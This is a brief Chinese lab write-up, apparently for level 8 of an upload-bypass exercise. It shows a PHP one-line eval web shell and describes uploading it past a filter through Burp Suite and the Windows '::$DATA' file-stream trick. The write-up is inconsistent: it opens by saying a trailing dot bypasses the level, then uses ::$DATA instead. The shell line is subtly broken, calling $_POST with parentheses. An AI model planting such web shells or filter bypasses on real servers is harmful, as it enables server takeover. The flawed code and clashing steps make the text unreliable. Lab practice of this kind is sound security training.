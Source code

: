 ## 解题wp(By:独立团孙德胜Alan)
本pass可以通过增加点的方式绕过

## 1.打开第八关

![](./img/1.png)

## 2.上传一个普通的shell.php文件

```
<?php @eval($_POST('Alan'));?>
```

![](./img/2.png)

#### 提示不允许上传

## 3.分析代码

![](./img/3.png)

#### ::$DATA 利用 Windows文件流特性绕过

## 4.我们可以使用Burpsutie抓包，利用windows文件流特性绕过

![](/img/4.png)

